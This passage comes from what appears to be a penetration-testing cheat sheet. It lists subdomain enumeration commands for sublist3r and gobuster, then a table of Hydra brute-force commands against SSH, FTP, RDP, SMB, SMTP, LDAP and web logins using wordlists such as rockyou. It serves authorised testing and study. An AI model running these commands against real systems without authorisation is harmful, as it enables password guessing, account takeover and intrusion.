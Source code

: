 ```
sublist3r -d <domian name>
```
 
 
### `gobuster`
  
`dns`
```
gobuster dns -d erev0s.com -w awesome_wordlist.txt -i
```
 `vhost`
```
gobuster vhost -u erev0s.com -w awesome_wordlist.txt -v
```
----------------------------------------------------------------------------------------------------------------
# Brute Force

### Hydra

Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip <target-ip>`


| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| `hydra -P password-file.txt -v $ip snmp`                                                                                                    | Hydra brute force against SNMP                       |
| `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`                                                                       | Hydra FTP known user and rockyou password list       |
| `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`                                                                              | Hydra SSH using list of users and passwords          |
| `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`                                                                         | Hydra SSH using a known password and a username list |
| `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`                                                                                         | Hydra SSH Against Known username on port 22          |
| `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`                                                                          | Hydra POP3 Brute Force                               |
| `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`                                                                                         | Hydra SMTP Brute Force                               |
| `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`                                                                                 | Hydra attack http get 401 login with a dictionary    |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`                                                             | Hydra brute force SMB user with rockyou:             |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt http-form-post "/login.php:username=^USER^&password=^PASS^:Invalid Username"` | Hydra brute force a Wordpress admin login            
| `hydra -L usernames.txt -P passwords.txt $ip smb -V -f` | SMB Brute Forcing |
| `hydra -L users.txt -P passwords.txt $ip ldap2 -V -f` | LDAP Brute Forcing |

-----------------------------------------------------------------------------------------------------------------
# Bypass File Upload Filtering
